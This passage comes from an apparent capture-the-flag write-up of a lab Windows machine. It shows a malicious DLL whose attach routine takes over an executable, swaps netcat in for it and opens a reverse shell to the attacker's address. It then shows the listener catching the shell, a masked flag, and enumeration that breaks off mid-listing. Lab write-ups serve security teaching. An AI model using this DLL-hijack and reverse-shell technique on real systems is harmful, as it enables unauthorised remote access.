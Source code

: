     
    
        case DLL_PROCESS_ATTACH:
            system("cmd.exe /c takeown /F C:\\share\\Bginfo64.exe");
            system("cmd.exe /c cacls C:\\share\\Bginfo64.exe /E /G ginawild:F");
            system("cmd.exe /c copy C:\\inetpub\\wwwroot\\data\\sites\\1\\media\\nc64.exe C:\\share\\Bginfo64.exe");
            system("cmd.exe /c C:\\share\\Bginfo64.exe -e cmd 10.10.14.6 9003");
    

For `takeown`, the syntax is `/f [filename]`
([docs](https://learn.microsoft.com/en-us/windows-
server/administration/windows-commands/takeown)).

For `cacls`, `/E` says “edit ACL instead of replacing it”, and `/G
[user:<perm>]` grants the specified rights to that user. So in this case, full
control to GinaWild ([docs](https://learn.microsoft.com/en-us/windows-
server/administration/windows-commands/cacls)).

#### Shell

I’ll upload that Dll over `7-zip64.dll` and wait. When the task runs, there’s
a connect at my listening `nc`:

    
    
    oxdf@hacky$ rlwrap -cAr nc -lnvp 9003
    Listening on 0.0.0.0 9003
    Connection received on 10.10.11.147 56824
    Microsoft Windows [Version 10.0.20348.643]
    (c) Microsoft Corporation. All rights reserved.
    
    c:\share>
    

And I can finally get `user.txt`:

    
    
    c:\Users\GinaWild\Desktop>type user.txt
    c7de9935************************
    

## Shell as bpassrunner

### Enumeration

#### Desktop Link

There’s not much else in GinaWild’s home directory, but there is a file worth
noting in `C:\Users\Public\Desktop`:

    
    
    c:\Users\Public\Desktop>dir
     Volume in drive C has no label.
     Volume Serial Number is BE61-D5E0
    
     Directory of c:\Users\Public\Desktop
    